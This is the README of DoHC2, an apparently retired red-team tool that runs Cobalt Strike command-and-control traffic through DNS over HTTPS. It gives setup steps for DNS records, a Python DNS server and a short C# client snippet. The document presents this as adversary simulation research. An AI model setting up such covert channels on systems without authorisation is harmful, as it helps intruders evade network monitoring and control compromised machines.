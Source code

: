 :warning: *NOTE: This tool is no longer under active maintenance.*

# DoHC2

DoHC2 allows the ExternalC2 library from Ryan Hanson (https://github.com/ryhanson/ExternalC2) to be
leveraged for command and control (C2) via DNS over HTTPS (DoH). This is built for the popular 
Adversary Simulation and Red Team Operations Software Cobalt Strike (https://www.cobaltstrike.com).

## Presentation

This project was released on October 23rd 2018 at [Mitre ATT&CKcon](https://www.mitre.org/attackcon). 

Slides:
[Playing Devil’s Advocate to Security Initiatives with ATT&CK](Mitre_Attackcon_Playing_Devils_Advocate_With_Attack_1.0.pdf)

Blog Article:
[DOH! DNS Over HTTPS Poses Possible Risks to Enterprises](https://www.trustwave.com/Resources/SpiderLabs-Blog/DOH!-DNS-Over-HTTPS-Poses-Possible-Risks-to-Enterprises/)

## Diagram

![Screenshot](dohc2_diagram.png)

## Usage

1. Install and launch Cobaltstrike teamserver.
2. Launch a beacon_http/beacon_https listener - *Gotcha* This can be firewalled off but you need this for External C2 to work.
3. Load in script 'external_c2.cna' to Start ExternalC2 port 2222 (Firewall off).
4. Install dependencies for python3 server.
5. Allow port 53/udp to Internet (or to the DoH provider IP ranges).
6. Create an A record on your domain to point to the teamserver/DNS server IP i.e. [A] entry.example.org -> 000.000.000.000
7. Create an NS record to point to the A record for send channel (INPUTDOMAIN) i.e. [NS] send.example.org -> entry.example.org.
8. Create an NS record to point to the A record for receive channel (OUTPUTDOMAIN) i.e. [NS] receive.example.org -> entry.example.org.
9. Change INPUTDOMAIN and OUTPUTDOMAIN in DoHC2.py. Change encryption key/IV - this is used to encrypt the path from Teamserver-->Client Only (Encrypts Stager). Change max_records from 1 depending on DoH provider, some providers reorder records returned which is not currently handled. Max 5 works well with DNS server.
10. Launch python3 DNS server.
11. Build ExternalC2 library. Change encryption key/IV in DoHChannel.cs to match python3 server. 
12. Configure and launch DoHC2() as below being sure to set INPUTDOMAIN, OUTPUTDOMAIN and a [DoH provider](https://github.com/curl/curl/wiki/DNS-over-HTTPS) in format 'https://resolver.example.org/dns-query'.

## Server

Python DNS server based on [ACME DNS Server](https://github.com/pawitp/acme-dns-server)

* This interfaces raw DNS to the Cobalt Strike Teamserver on 127.0.0.1:2222 by default.
* Change INPUTDOMAIN and OUTPUTDOMAIN to be hosts that are NS of the server's external IP:

```bash
	pip3 install -r requirements.txt
	sudo python3 ./DoHC2.py
```

## Library

[@ryhanson](https://twitter.com/ryhanson)'s [ExternalC2](https://github.com/ryhanson/ExternalC2) with the following additions:
* Channels> DoHChannel.cs - DoH implementation
* Channels > Base32.cs (from https://gist.github.com/BravoTango86/2a085185c3b9bd8383a1f956600e515f)
* DoHC2.cs - DoH channel set-up / wrapper
* Newtonsoft.JSON (https://www.newtonsoft.com/json) is added to project

## Example Client

* As with rest of ExternalC2 DoHC2 is COMVisible for JScript/DotNetToJS but this is a simple example to initiate it.
* The example client DoHC2Runner is a simple C# program to demo loading the library and setting it up as follows:

```csharp
	DoHC2 doh = new DoHC2();
	doh.Configure("<INPUTDOMAIN>","<OUTPUTDOMAIN>","<DoH URI i.e. https://dns.google.com/resolve or https://dns.example.org/dns-query");
	doh.Go();
```


## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

DoHC2

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [ExternalC2](https://github.com/ryhanson/ExternalC2)
* [ExternalC2 Spec](https://www.cobaltstrike.com/help-externalc2)
* [ACME DNS Server - (Python Server)](https://github.com/pawitp/acme-dns-server)
* [Python Shared File C2 - (Python Server)](https://github.com/outflanknl/external_c2)
* [Python External_C2_Framework - (Python Server)](https://github.com/Und3rf10w/external_c2_framework)
* [DNSExfiltrator - Python Server](https://github.com/Arno0x/DNSExfiltrator)

## Contributers
* [xinhaojing](https://github.com/xinhaojing) - Server Issue #1
